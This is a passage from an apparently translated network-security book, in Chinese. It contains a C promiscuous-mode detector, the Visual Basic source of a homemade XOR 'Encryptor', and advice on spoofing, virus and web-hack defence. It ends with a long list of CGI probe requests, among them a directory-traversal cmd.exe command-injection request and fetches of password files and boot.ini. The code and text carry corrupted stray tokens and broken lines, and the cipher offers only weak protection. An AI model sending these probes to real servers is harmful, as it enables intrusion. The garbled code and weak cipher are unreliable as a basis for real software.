        if (kvm_read(kd, dipaddr, (char *) &di, sizeof(struct dev_info)) < 0)
            continue;

        if (verbose) {
```

```
printf("Interface qe%d: flags=0x%x\n",
        di.devi_instance, qe.qe_flags);
}

if (qe.qe_flags & QEPROMISC) {
    printf("WARNING: %s INTERFACE qe%d IS IN PROMISCUOUS MODE.\n",
            hostName, di.devi_instance);
}
} while (qeaddr != 0);
}

checkHME(kd)
kvm_t *kd;
{
    struct hme hme;
    struct dev_info di;
    u_long hmeaddr, dipaddr;
    hmeaddr = nl[X_HME].n_value;
    do {
        if (kvm_read(kd, hmeaddr, (char *) &hme, sizeof(struct hme)) < 0)
            fatal("kvm_read: hme", NULL);
        dipaddr = (u_long) hme.hme_dip;
        hmeaddr = (u_long) hme.hme_nextp;
        if (dipaddr == 0)
            continue;
        if (kvm_read(kd, dipaddr, (char *) &di, sizeof(struct dev_info)) < 0)
            continue;
        if (verbose) {
            printf("Interface hme%d: flags=0x%x\n",
                    di.devi_instance, hme.hme_flags);
        }
        if (hme.hme_flags & HMEPROMISC) {
            printf("WARNING: %s INTERFACE hme%d IS IN PROMISCUOUS MODE.\n",
                    hostName, di.devi_instance);
        }
    } while (hmeaddr != 0);
}

#endif /* SUNOS5 */
```

如今，IT 管理员正在研究重大的基础设施改造，包括交换核心、虚拟专用网络（VPN）和/或加密技术。通过这些实施方案，登录操作以及数据通信都可以进行加密，以避免遭受未经授权的嗅探行为的威胁。请联系您的产品供应商，并要求他们提供有关其专有加密选项的信息。

## 图 4.19 使用 Encryptor 加密数据以实现安全的网络传输。



家庭、企业或私人 Windows 用户如果需要加密功能且希望完全掌控，可以使用 Encryptor，如图 4.19 所示，该程序最初由 STeRoiD 开发。借助它，您可以选择一种密码技术来提供简单的加密功能以保护数据。其源代码并不复杂，应该不难根据个人需求进行修改。要保存数据以进行加密，只需从右侧的目录列表导航到您想要保存加密文件的路径。然后，输入加密密钥并点击 Save。加载加密文件时，从右侧的目录列表导航回并选择您要加载的文件（务必输入正确的加密密钥），然后点击 Load。图 4.19 中示例的输出结果将是：

```
Îg„K¶f<ô_·_ƒm*_…eÆ_Ã=¢ €Yõ1⢟-_Š2 t³+#õ%.ñX ¹
¾µ]Ûá6êsÙ`ã0gé±î`^?Ã_ŸN¾AÛÎ_øUœTc¾c`=="_
```

### Encryptor（主窗体）

```
Private Sub DelFileBtn_Click()
If Files.Filename = "" Then Exit Sub
```


 ```vb
If MsgBox("删除文件?", vbExclamation Or vbYesNo, "删除文件") = vbYes Then
If MsgBox("所有信息将会丢失！继续？", vbExclamation Or vbYesNo, "删除文件") = vbYes Then
Kill GetFileWithPath
End If
End If
Files.Refresh
End Sub
```

```vb
Private Sub Drives_Change()
FilePath.Path = Drives.Drive
Files.Path = Drives.Drive
End Sub
```

```vb
Private Sub FilePath_Change()
Files.Path = FilePath.Path
End Sub
```

```vb
Private Sub Files_DblClick()
MsgBox GetFileWithPath
End Sub
```

```vb
Private Sub Form_Load()
Drives.Drive = Left(App.Path, 2)
FilePath.Path = App.Path
OpenFilename = ""
Saved = True
ChangeEnable False
End Sub
```

```vb
Private Sub Form_Unload(Cancel As Integer)
Cancel = 1
Mexit_Click
End Sub
```

```vb
Private Sub LoadBtn_Click()
Mopen_Click
End Sub
```

```vb
Private Sub Mexit_Click()
If Saved = False Then
If SaveQuestion = 3 Then Exit Sub
End If
End
End Sub
```

```vb
Private Sub MLoadFiles_Click()
MsgBox "从右侧的目录列表中浏览并选择您要加载的文件。请务必输入正确的加密密钥，然后点击加载。", vbInformation, "如何加载加密文件"
End Sub
```

```vb
Private Sub MSaveFiles_Click()
MsgBox "从右侧的目录列表中浏览到您希望保存加密文件的路径。输入加密密钥并点击保存。", vbInformation, "如何加密保存文件"
End Sub
```

```vb
Private Sub PasswordTxt_Change()
If Len(PasswordTxt) = 0 Then
ChangeEnable False
Else
ChangeEnable True
End If
End Sub
```

```vb
Private Sub SaveBtn_Click()
StartSave
End Sub
```

```vb
Private Sub Mnew_Click()
If Saved = False Then
    If SaveQuestion = 3 Then Exit Sub
End If
Textbox = ""
OpenFilename = ""
Saved = True
End Sub
```

```vb
Private Sub Mopen_Click()
If Saved = False Then
    If SaveQuestion = 3 Then Exit Sub
End If
If Files.Filename = "" Then MsgBox "选择文件名", vbExclamation:
    Exit Sub
OpenFilename = GetFileWithPath
LoadFile OpenFilename, PasswordTxt
Saved = True
End Sub
```

```vb
Private Sub Msave_Click()
StartSave
End Sub
```

```vb
Private Sub Msaveas_Click()
Dim Temp As String, Temp2 As String
Temp = InputBox("输入文件名", "保存文件")
If Temp = "" Then Exit Sub
Temp = GetPath(Files.Path) & GetTxtFile(Temp)
If (Dir(Temp) <> "") Then
    If MsgBox("文件已存在。" & vbCrLf & "替换？", vbQuestion Or vbYesNo, "文件存在！") = vbNo Then Exit Sub
End If
Temp2 = VerifyPass
If Temp2 <> "" Then
OpenFilename = Temp
SaveFile OpenFilename, Temp2
End If
End Sub
```

```vb
Private Sub Textbox_Change()
Saved = False
End Sub
```

### 加密模块

```vb
Global Saved As Boolean
Global OpenFilename As String

Function GetFileWithPath() As String
If MainFrm.Files.Filename = "" Then
    GetFileWithPath = ""
    Exit Function
Else
GetFileWithPath = GetPath(MainFrm.Files.Path) & MainFrm.Files.Filename
End If
End Function

Function GetPath(ByVal PathName As String) As String
If PathName Like "*\ " Then
GetPath = PathName
Else
GetPath = PathName & "\ "
End If
End Function

Function SpecielNumber1(ByVal Text As String) As Byte
Dim Value, Shift1, Shift2, ch
For i = 1 To Len(Text)
ch = Asc(Mid$(Text, i, 1))
Value = Value Xor Int(Shift1 * 10.4323)
Value = Value Xor Int(Shift2 * 4.23)
Shift1 = (Shift1 + 7) Mod 19
Shift2 = (Shift2 + 13) Mod 23
Next
SpecielNumber1 = Value
End Function

Function SpecielNumber2(ByVal Password As String) As Byte
Dim Value
Value = 194
For i = 1 To Len(Password)
ch = Asc(Mid$(Password, i, 1))
Value = Value Xor ch Xor i
If Value > 100 Then Value = (Value - 50) Xor 255
Next
SpecielNumber2 = Value
End Function
```

```vb
Function SpecielNumber3(ByVal Password As String) As Byte
Value = Len(Password) Mod 37
For i = 1 To Len(Password)
ch = Asc(Mid$(Password, i, 1))
If (Value Mod 2) And (ch > 10) Then ch = ch - 1
Value = (ch * Value * 17.3463) Mod 255
Next
SpecielNumber3 = Value
End Function
```

```vb
Function Fib(ByVal Num As Integer) As Long
Dim Temp As Integer, Temp2 As Integer, Temp3 As Integer
Temp = 1
Temp2 = 1
Temp3 = 1
For i = 3 To Num
Temp3 = Temp2
Temp2 = Temp
Temp = Temp + Temp3
Next
Fib = Temp
End Function
```

```vb
Function Pwd(ByVal Text As String, ByVal KeyTxt As String) As String
Dim KeyLen As Integer
Dim PassAsc As Byte
Dim SaveNum As Integer
Dim AfterETxt As String
Dim RandTxt1 As Integer, RandTxt2 As Integer, RandTxt3 As Integer
Dim Temp As Byte
RandTxt1 = SpecielNumber1(Text)
RandTxt2 = SpecielNumber2(KeyTxt)
RandTxt3 = SpecielNumber3(KeyTxt)
SaveNum = 1
KeyLen = Len(KeyADVANCEDKEYText)
AfterETxt = ""
For i = 1 To Len(Text)
Temp = Asc(Mid(Text, i, 1))
PassAsc = Asc(Mid(KeyTxt, ((i - 1) Mod KeyLen) + 1, 1))
If RandTxt2 > RandTxt3 Then Temp = Temp Xor RandTxt1 Xor RandTxt3
If RandTxt1 > RandTxt3 Then Temp = Temp Xor RandTxt2
Temp = Temp Xor (Abs(RandTxt3 - i) Mod 256)
Temp = Temp Xor PassAsc
Temp = Temp Xor (Int(i * 2.423121) Mod 256)
Temp = Temp Xor (Int(Fib(i Mod 17) * 0.334534) Mod 256)
Temp = Temp Xor SaveNum
Temp = Temp Xor (KeyLen Mod SaveNum)
Temp = Temp Xor RandTxt3
Temp = Temp Xor (Len(Text) Mod 71)
Temp = Temp Xor Abs(RandTxt3 - RandTxt1)
Temp = Temp Xor Abs(((RandTxt1 Mod 23) * 10) Mod RandTxt2)
SaveNum = (Int(Fib(i Mod 7) * 0.334534) Mod 256)
SaveNum = SaveNum Xor (PassAsc * 45.92425) Mod 256
If (i >= 2) Then
    If PassAsc And 2 Then
    Temp = Temp Xor PassAsc
    Else
    Temp = Temp Xor (Int(PassAsc * 3.2145561) Mod 256)
    End If
Else
Temp = Temp Xor ((KeyLen * PassAsc + (i Mod 3)) Mod 256)
End If
AfterETxt = AfterETxt & Chr(Temp)
Next
Pwd = AfterETxt
End Function

Function GetTxtFile(ByVal Filename As String) As String
If Filename Like "*.txt" Then
GetTxtFile = Filename
Else
GetTxtFile = Filename & ".txt"
End If
End Function

Function ChangeEnable(ByVal Status As Boolean)
With MainFrm
.LoadBtn.Enabled = Status
.SaveBtn.Enabled = Status
.Mopen.Enabled = Status
.Msave.Enabled = Status
.Msaveas = Status
End With
End Function

Function SaveQuestion() As Byte
Opt = MsgBox("您没有保存上一个文件。" & vbCrLf & "保存吗？", vbQuestion Or vbYesNoCancel, "保存")
If Opt = vbYes Then
```

```vb
If StartSave = True Then
    SaveQuestion = 1
Else
    SaveQuestion = 3
End If
ElseIf Opt = vbNo Then
    SaveQuestion = 2
Else
    SaveQuestion = 3
End If
End Function
```

```vb
Function StartSave() As Boolean
Dim Temp As String, Temp2 As String
StartSave = True
If OpenFilename = "" Then
    Temp = InputBox("输入文件名", "保存文件",
    MainFrm.Files.Filename)
    If Temp = "" Then StartSave = False: Exit Function '仅文件名
    Temp = GetPath(MainFrm.Files.Path) & GetTxtFile(Temp) '将 temp 设置为
    完整路径
    If (Dir(Temp) <> "") Then '如果文件存在
        If MsgBox("文件已存在。" & vbCrLf & "替换？",
        vbQuestion Or vbYesNo, "文件存在！") = vbNo Then StartSave = False:
    Exit Function
    End If
    Temp2 = VerifyPass
    If Temp2 = "" Then StartSave = False: Exit Function
    OpenFilename = Temp
    SaveFile OpenFilename, Temp2
    Saved = True
Else
    Temp = VerifyPass
    If Temp = "" Then StartSave = False: Exit Function
    SaveFile OpenFilename, Temp
    Saved = True
End If
End Function
```

```vb
Function SaveFile(ByVal Filename As String, ByVal Pass As String)
Open Filename For Output As #1
Print #1, Pwd(MainFrm.Textbox, Pass)
Close #1
Saved = True
MainFrm.Files.Refresh
End Function
```

```vb
Function LoadFile(ByVal Filename As String, ByVal Pass As String)
Dim Dta As String
Dta = Space(FileLen(Filename))
free = Free detects file size))
free = FreeFile
Open Filename For Binary Access Read As #free
Get #free, , Dta
Close #free
Dta = Mid(Dta, 1, Len(Dta) - 2)
MainFrm.Textbox = Pwd(Dta, Pass)
Saved = True
End Function

Function VerifyPass() As String
Dim Temp As String
Temp = InputBox("确认加密密钥")
If Temp = "" Then Exit Function
If (Temp = MainFrm.PasswordTxt) Then
VerifyPass = Temp
Else
MsgBox "密钥不匹配！", vbCritical
VerifyPass = ""
End If
End Function
```

### 防范欺骗攻击

IP 欺骗用于冒充受信任主机的身份，以破坏安全性并获得与目标主机的可信通信。在成功入侵后，攻击者会在系统中植入后门，以便将来更容易进行入侵和远程控制。同样，欺骗 DNS 服务器使攻击者能够控制域名解析过程，在某些情况下，还可以将访问者重定向到非预期的网站或邮件服务器。

幸运的是，反欺骗对策已经引入到网络领域。由于欺骗的主要基础是源地址识别，而缺少经过验证的身份认证，因此引入带有认证头（AH）的 IPv6 可以提供帮助。AH 提供了计算数据报载荷和部分头字段的加密校验和的手段。该机制提供了双重保护，既能防止欺骗，又能提供更好的数据包过滤功能，以防范广播风暴。作为基于 IPSec 的解决方案，显式的数据包过滤规则可以保护来自外部（例如 VPN 外部）的流量，而这些规则并不总是必需的，因为 IPSec 的加密认证技术本身就提供了这种保护。从根本上讲，如果某个协议在其消息中不包含认证机制，那么它可能容易受到欺骗攻击。以 NetBIOS 为例，需要更好保护以防范欺骗攻击的用户可以在 Windows 2000 中使用 IPSec 来建立
```


经过身份验证的会话。在这种情况下，对通过 137–139 端口进行会话认证的 IPSec 策略可以防止针对这一潜在易受攻击协议的欺骗攻击。

大多数厂商都在加入反欺骗的行列。例如，某些 Cisco 产品通过 DOCSIS 基线隐私接口（BPI）或托管 CPE 选项来集成安全性，例如认证、授权和计费（AAA）服务器与路由器。简而言之，该系统支持访问控制列表（ACL）、隧道、过滤、特定的反欺骗保护，以及用于在射频（RF）子网上配置源 IP 过滤的命令，以防止用户使用的源 IP 地址不属于其所连接 IP 子网的有效范围。

如果将上述技术与状态检测防火墙相结合，就会形成一种反欺骗锁定场景。别忘了向产品供应商咨询特定的专有反欺骗功能。许多软件升级会自动包含较新的功能，这些功能正在不断开发中，并添加到配置前端（如图 4.20 所示）。

### 防御病毒感染

迄今为止，已有超过 87,000 种通过技术手段传播的病毒被记录在案；每天还会通过变异或新创作出现更多病毒。计算机病毒有三个截然不同的生命周期阶段：激活、复制和操控：

- **激活。** 计算机首次“感染”病毒的时刻，通常来自可信来源。
- **复制。** 病毒在其传播范围内尽可能多地感染“受害者”。
- **操控。** 病毒开始生效的时刻——称为载荷。这可能由日期（13 号星期五或 1 月 1 日）或事件（第三次重启或在计划的磁盘维护过程中）决定。

病毒防护软件在设计上通常是反应式的，因此很难实现彻底的抗病毒锁定状态。因此，在选择防病毒软件时，应重点关注三项功能：主动扫描、邮件监控和实时定义更新。

**主动扫描。** 使用主动扫描时，病毒防护模块会在后台持续运行，在打开文件时对其进行扫描。该模块还能防止未经授权的文件修改，并在系统文件大小被更改时发出警告。此过程中一项独特的配套功能是 Internet 过滤。文件在下载时会被扫描以查找已知感染；怀有敌意的 Java 小程序和 ActiveX 控件会被阻止；某些产品甚至允许自定义配置以阻止访问特定不良站点。图 4.21 展示了如何配置 McAfee 产品以扫描所有文件。

**图 4.22** Norton AntiVirus 2001 可以监控并防护电子邮件病毒。

**邮件监控。** 邮件监控是病毒防护中近来新增的一项关键功能。该技术引导病毒软件在你收到的新邮件附件中查找病毒。你通常可以配置守护进程来清除在电子邮件中发现的病毒，或者将其移动或删除。图 4.22 展示了 Norton 产品如何实现该技术。

**实时定义更新。** 该技术采用自动更新流程来获取病毒签名，这一点非常重要，因为新的感染似乎每天都在变异。病毒签名存储在数据库中，用于防护成千上万的计算机病毒。清除更新可能每天发布一到两次。此外，实时定义更新引擎可以自动向供应商查询新更新、下载并安装新的数据库。图 4.23 展示了 Norton 的 LiveUpdate 功能的工作原理。

### 防御网页入侵

网页入侵是这里的主要漏洞，具体表现形式随 Web 服务器守护进程的不同而异。对策技术要求设计与第 1 章中描述的 SMTP-NAT-DMZ 流程保持一致。将 Web 服务器放置于非军事区（DMZ）的防火墙后面，可以节省大量应对黑客攻击的时间。该技术涉及部署一台“强化型”防火墙，它将检查可能数以百万计的 HTTP 请求数据包。虽然这是最佳做法，但如果成本是决定性因素（大多数情况下都是如此），最佳替代方案是保留详尽的系统日志并配置端口拦截器。端口拦截器（如 TigerWatch，参见附录 A）相当于小型系统防火墙，在监控黑客攻击的同时关闭易受攻击的端口和服务。其他用于网站锁定的有用 Tiger 技术包括禁用目录浏览，以及对本地和远程管理登录使用加密认证流程。

通用网关接口（CGI）编码也可能导致易受网页入侵攻击。事实上，CGI 是攻击者最常瞄准的入口。幸运的是，有许多公共领域和商业 CGI 漏洞扫描器可供下载。这些工具包可以检测常见的 CGI 漏洞，以便进行自定义改进。例如，请看图 4.24 所示的 CGI Exploit Scanner，它最初由地下黑客/程序员 no()ne 编写。该程序可针对你的个人 CGI 扫描进行定制。你也可以手动测试 CGI 弱点。目前共有 407 个潜在的 CGI 漏洞需要测试，列举如下：

**图 4.24** CGI Exploit Scanner 可以帮助检测潜在的 CGI 代码漏洞。

```
GET /cgi-bin/unlg1.1 HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/unlg1.2 HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/rwwwshell.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/gH.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/phf HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/phf.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/Count.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/test-cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/nph-test-cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/nph-publish HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/php.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/php HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/handler HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/webgais HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/websendmail HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/webdist.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/faxsurvey HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/htmlscript HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/pfdisplay HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/perl.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/wwwboard.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/wwwboard.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/www-sql HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/view-source HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/campas HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/aglimpse HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/glimpse HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/man.sh HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/AT-admin.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/filemail.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/maillist.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/jj HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/info2www HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/files.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/finger HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/bnbform.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/survey.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/AnyForm2 HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/textcounter.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/classifieds.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/environ.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/wrap HTTP/1.0 & vbCrLf & vbCrLf
```


```
GET /cgi-bin/whois_raw.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/AnyBoard.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/dumpenv.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/login.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /test/test.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_inf.html HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_bin/ HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/users.pwd HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/service.pwd HTTP/1.0 & vbCrLf stamina CrLf & vbCrLf
GET /_vti_pvt/authors.pwd HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/admin.pwd HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/administrators.pwd HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_bin/shtml.dll HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_bin/shtml.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-dos/args.bat HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-win/uploader.exe HTTP1.0 & vbCrLf & vbCrLf
GET /cgi-bin/rguest.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/wguest.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/issadmin/bdir.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/CGImail.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/tools/newdsn.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/tools/getdrvrs.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /getdrvrs.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/fpcount.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/counter.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/visadmin.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/perl.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/../../cmd.exe?%2FC+echo+'hacked!'>c:\hello.bat HTTP/1.0 & vbCrLf & vbCrLf
GET /users/scripts/submit.cgi HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/explcal/openfile.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/expeval/exptcalc.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/expeval/displayopenedfile.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/expeval/sendmail.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/examples/parks/detail.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/snippets/fileexists.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/examples/mainframeset.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /iissamples/exair/howitworks/codebrws.asp HTTP/1.0 & vbCrLf & vbCrLf
GET /iissamples/sdk/asp/docs/codebrws.asp HTTP/1.0 & vbCrLf & vbCrLf
GET /msads/Samples/SELECTOR/showcode.asp HTTP/1.0 & vbCrLf & vbCrLf
GET /search97.vts HTTP/1.0 & vbCrLf & vbCrLf
GET /carbo.dll HTTP/1.0 & vbCrLf & vbCrLf
GET /domcfg.nsf/?open HTTP/1.0 & vbCrLf & vbCrLf
GET /?PageServices HTTP/1.0 & vbCrLf & vbCrLf
GET /.../autoexec.bat HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/zero.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/root.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/expressions.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/expeval/eval.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/exampleapp/publish/admin/addcontent.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/exampleapp/email/getfile.cfm?filename:boot.ini HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/exampleapp/publish/admin/application.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/exampleapp/email/application.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/exampleapp/docs/sourcewindow.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/examples/parks/detail.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/examples/cvbeans/beaninfo.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/cfmlsyntaxcheck.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/snippets/viewexample.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/snippets/gettempdirectory.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/snippets/fileexists.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfdocs/snippets/evaluate.cfm HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/cfapps/forums/forums_.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/cfapps/security/realm_.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/cfapps/forums/data/forums.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/cfapps/security/data/realm.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/database/cfexamples.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/database/cfsnippets.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/database/smpolicy.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /cfusion/database/cypress.mdb HTTP/1.0 & vbCrLf & vbCrLf
GET /DataBase/ HTTP/1.0 & vbCrLf & vbCrLf
GET /database.nsf/ HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/cgi-lib.pl HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/minimal.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/redir.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/stats.prg HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/statsconfig HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/visitor.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/htmldocs HTTP/1.0 & vbCrLf & vbCrLf
GET /cgi-bin/logs HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_bin HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_bin/_vti_adm HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_bin/_vti_aut HTTP/1.0 & vbCrLf & vbCrLf
GET /srchadm HTTP/1.0 & vbCrLf & vbCrLf
GET /iisadmin HTTP/1.0 & vbCrLf & vbCrLf
GET /html/?PageServices HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/run.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/ctgestb.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/ctgestb.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/details.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/details.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/query.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/query.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/register.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/register.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/sample.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/sample.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/sample2.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/viewbook.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/samples/viewbook.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/tools/ct.htx HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/tools/ctss.idc HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/tools/dsnform.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/tools/getdrvrs.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /scripts/iisadmin/tools/mkilog.exe HTTP/1.0 & vbCrLf & vbCrLf März
GET /scripts/iisadmin/tools/newdsn.exe HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/achg.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/aexp.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/aexp2.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/aexp2b.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/aexp3.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/aexp4.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/aexp4b.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/anot.htr HTTP/1.0 & vbCrLf & vbCrLf
GET /IISADMPWD/anot3.htr HTTP/1.0 & vbCrLf & vbCrLf
